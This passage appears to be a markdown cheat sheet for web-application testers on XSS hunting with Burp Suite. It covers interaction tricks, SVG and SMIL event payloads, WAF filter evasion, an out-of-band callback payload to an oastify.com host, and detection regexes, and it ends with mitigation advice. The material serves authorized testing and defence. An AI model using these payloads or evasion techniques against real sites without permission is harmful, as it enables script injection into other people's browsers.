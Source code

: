 ## 5) Interaction strategies
- Use Burp’s embedded browser (or an external browser) to interact with rendered candidates:
  - Hover, click, focus, scroll, keypress.
  - Add `tabindex=1` to focusable nodes to enable focus/keyboard events.
- For custom-tags-only: the fragment + `tabindex` trick: `<xss id=x tabindex=1 onfocus=...>#x`.

## 6) Confirming success
- OAST/Collaborator: replace visual PoC with network callback where viable:
  - Example: `onerror=new Image().src='https://<id>.oastify.com/'`.
- Burp Intruder Grep - Match/Extract:
  - Match: `(?i)on(error|load|begin|click|mouseover)\s*=`, `(?i)javascript:\s*`, `srcdoc="<script>`.
  - Extract: capture ~40-80 chars around your insertion to see if encoded/rewritten.
- Response diffs: sort by length/code to spot blocking or sanitizer behavior.

## 7) SVG specifics (high ROI)
- Auto/indirect: `<svg onload=...>`, `<image onerror=...>`, SMIL `onbegin` with `begin="0s"` or event-based.
- Minimal working variants included (your success case):
  - `"><svg><animatetransform onbegin=alert(1)>`
  - URL-encoded: `%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E`
- If `onload` filtered, rely on SMIL timing:
  - Immediate: `<animate begin="0s" dur="0.001s" onbegin=...>`
  - Event-driven: `begin="indefinite"` + `beginElement()` invoked via allowed event (e.g., `onclick`).
  - Event-based timing: `begin="target.click"`.

## 8) WAF and filter evasion
- Case/spacing: `ONERROR`, `onError`, `onerror =` with varied whitespace.
- Attribute splitting and HTML entity encoding where applicable.
- Use `typo-attrs.txt` for naive blacklist slips (e.g., `oonload`).
- Mutation XSS: malformed markup that the parser “repairs”.
- CSP-aware payloads: avoid inline JS if nonce/hash is required; pivot to allowed vectors (e.g., `onbegin`).

## 9) Workflow quickstart (practical)
- Step 1: `tags-probe.txt` → learn which tags survive.
- Step 2: If SVG allowed, run `svg-restricted-events.txt` first; else `js-autoexec.txt`.
- Step 3: Narrow to surviving events; use `tags-events-payloads-core.txt` to sweep with `onclick/onmouseover/onfocus`.
- Step 4: For custom-tags-only, use `custom-tags-only.txt` + fragment focus.
- Step 5: Confirm with OAST and render/interaction; iterate encodings.

## 10) Reporting/mitigation reminders
- Recommend proper output encoding by context, safe DOM APIs (`textContent`, attribute setters), and templating auto-escape.
- Enforce strict CSP (nonces/hashes; disallow `unsafe-inline`), and avoid dangerous sinks (`innerHTML`, `document.write`).
- Server-side validation blocks obvious payloads but must not replace output encoding.
